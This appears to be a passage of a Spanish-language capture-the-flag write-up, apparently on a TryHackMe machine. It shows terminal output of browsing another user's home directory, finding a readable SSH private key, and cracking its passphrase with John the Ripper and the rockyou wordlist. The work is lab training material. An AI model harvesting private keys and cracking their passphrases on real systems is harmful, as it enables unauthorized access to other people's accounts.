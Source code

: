 ```shell
jan@ip-10-10-93-23:~$ cd .lesshst
-bash: cd: .lesshst: Not a directory
jan@ip-10-10-93-23:~$ cat .lesshst 
cat: .lesshst: Permission denied
jan@ip-10-10-93-23:~$ cd ..
jan@ip-10-10-93-23:/home$ ls
jan  kay  ubuntu
jan@ip-10-10-93-23:/home$ cd kay 
jan@ip-10-10-93-23:/home/kay$ ls
pass.bak
jan@ip-10-10-93-23:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 5 root root 4096 Jul  5 04:57 ..
-rw------- 1 kay  kay   789 Jun 22 13:41 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@ip-10-10-93-23:/home/kay$ cd .ssh
jan@ip-10-10-93-23:/home/kay/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
jan@ip-10-10-93-23:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

Vemos que tenemos en el usuario "kay" un clave privada de ssh... PREMIO GORDO :]. Ahora toca descifrarla y usarla.

```shell
root@ip-10-10-184-252:~# nano id_rsa
root@ip-10-10-184-252:~# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_descifrado 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
1g 0:00:00:09 DONE (2025-07-05 10:44) 0.1062g/s 1524Kp/s 1524Kc/s 1524KC/s *7¡Vamos!
Session completed.
```
